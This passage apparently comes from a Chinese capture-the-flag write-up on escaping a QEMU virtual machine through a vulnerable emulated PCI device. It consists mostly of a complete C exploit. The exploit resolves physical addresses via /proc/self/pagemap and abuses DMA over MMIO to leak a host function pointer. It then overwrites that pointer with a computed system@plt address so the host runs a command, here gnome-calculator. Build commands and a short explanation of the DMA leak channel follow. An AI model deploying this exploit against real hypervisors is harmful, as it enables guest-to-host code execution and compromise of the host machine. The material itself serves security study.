 ```c
    uint64_t page;
    int fd = open("/proc/self/pagemap",0);
    lseek(fd,((uint64_t)addr >> 12 << 3),0);
    read(fd,&page,8);
    return ((page & 0x7fffffffffffff) << 12 ) | ((uint64_t)addr & 0xfff);
}

void set_dma_cpy(uint32_t dst, uint32_t src, uint32_t len){
    mmio_write(0x88,dst);
    mmio_write(0x80,src);
    mmio_write(0x90,len);
}

void copy_to_dma(uint32_t dma,void * src, uint32_t len){
    set_dma_cpy(dma+0x40000,gva2gpa(src),len);
    mmio_write(0x98,1);sleep(1);
}

void copy_from_dma(void * dst,uint32_t dma, uint32_t len){
    set_dma_cpy(gva2gpa(dst),dma+0x40000,len);
    mmio_write(0x98,1|2);sleep(1);
}

void dma_enc(uint32_t dma, uint32_t len){
    set_dma_cpy(0,dma+0x40000,len);
    mmio_write(0x98,1|2|4);
}

int main(){
    mmio = mmap(0,0x1000,PROT_READ | PROT_WRITE, MAP_SHARED, open("/dev/mem",2),0xfea00000);
    
    uint64_t leak_enc;
    copy_from_dma(&leak_enc,0x1000,8);

    uint64_t system_plt  = leak_enc  - 0x283DD0 + 0x1FDB18;
    
    char * cmd = "gnome-calculator;";
    copy_to_dma(0x200,cmd,strlen(cmd));
    copy_to_dma(0x1000,&system_plt,8);
    dma_enc(0x200,0);
}
```

```c
➜  gcc exp.c -static -o exp
➜  find . | cpio -H newc -o > ../../rootfs.cpio
```

可见，漏洞利用过程没用上读mmio，但是如果没有读取信息，怎么可能泄露qemu进行的地址信息呢？答案是：mmio并不是和目标代码交互的唯一信道：

- 我们通过mmio将leak_enc的物理地址送给了漏洞代码使用
- 漏洞代码获得leak_enc的地址信息后，将数据写入其中
- 待漏洞代码写操作结束后，用户代码读取leak_enc内存即可
